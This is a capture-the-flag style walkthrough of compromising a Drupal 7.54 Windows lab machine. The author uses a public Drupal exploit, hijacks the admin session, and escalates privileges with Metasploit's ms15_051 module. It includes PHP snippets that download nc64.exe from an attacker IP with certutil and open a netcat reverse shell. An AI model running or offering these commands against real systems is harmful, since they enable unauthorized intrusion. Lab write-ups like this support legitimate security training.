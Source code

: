 ![[Pasted image 20231012143115.png]]

Heading to the webpage, we're met with Drupal
![[Pasted image 20231012143144.png]]

With some testing, and checking the robots.txt, we notice:
![image](https://github.com/partyh4t/Write-ups/assets/114421293/65f6029b-366a-430b-b053-3651b638392f)


As we can see, we now know the exact version number of the CMS being used.
![[Pasted image 20231012143342.png]]

With some research "Drupal 7.54 exploit" we instantly are met with:
![[Pasted image 20231012144251.png]]

We used the exploit, but we had to alter some of the code:
Originally i only changed the url to the proper IP, and as we can see, the endpoint_path is set to /rest-endpoint, but the exploit doesn't work.
![[Pasted image 20231012144350.png]]

So if we try to access that endpoint ourselves, it turns out it doesnt exist for us.
![[Pasted image 20231012144445.png]]

What if we try just /rest? Because if we search up that error with drupal, we can see some stackoverflow questions, that show that /rest is also a possible endpoint.

With that fixed:
![[Pasted image 20231012144645.png]]

Now, the exploit is creating a .php file within the server, and the exploit code is retrieving credentials:
![[Pasted image 20231012144927.png]]

Also the session information:
![[Pasted image 20231012144951.png]]

So we can either log into the admin dashboard and investigate, or we can also change the data to maybe give us a shell of some sort, it'd have to be in php though.

Lets first try to add some of those cookies into our browser:
![[Pasted image 20231012151148.png]]

Here, we put the session names value into the name section, and the id into the value:
![[Pasted image 20231012151217.png]]

I was having trouble trying to get a rev shell with the exploit code, so we'll have to do it through Drupal.

Going to be following this:
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/drupal#rce

For this, it will only work for versions of Drupal before V8.

So, after a lot of research, and some PHP errors, I was able to use this code on the new page within the "Add-content" section:
```
<?php
$command = "certutil.exe -urlcache -f http://10.10.14.15:8080/nc64.exe nc64.exe";
$output = shell_exec($command);
echo $output;
?>
```

And then to execute it: (Turns out [shell_exec](https://stackoverflow.com/questions/11209509/using-php-to-execute-cmd-commands) is exactly what I needed in this case)
```
<?php
shell_exec('nc64.exe -e cmd 10.10.14.15 1234')
?>
```

Now that we had access to the machine, i uploaded a meterpreter executable so i can use metasploit.

Once that was done, i ran local_exploit_suggester on the target, and was given multiple exploits that the target seemed to be vulnerable to.

I tried multiple, however the one that worked was [ms15_051](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2015/ms15-051). Using the metasploit module for it, i just had to make sure the payload was set to windows/x64/meterpreter/reverse_tcp, stressing on the x64 as without it, it wouldnt work. Also made sure the target was set to Windows x64, and the original meterpreter session was migrated to an x64 process.

Pwned.

---
